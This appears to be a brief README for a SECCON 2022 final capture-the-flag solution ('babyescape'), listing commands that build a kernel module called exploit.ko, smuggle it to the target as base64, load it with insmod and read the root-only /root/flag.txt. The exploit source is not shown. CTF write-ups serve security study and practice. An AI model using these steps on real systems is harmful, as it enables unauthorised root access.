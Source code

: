 # seccon-2022-final-babyescape-solution
```
./download_and_configure_kernel.sh
make
base64 exploit.ko | xsel -bi
```

```
busybox echo '<paste base64 exploit.ko>' | busybox base64 -d > exploit.ko
busybox insmod exploit.ko
cat /root/flag.txt
```
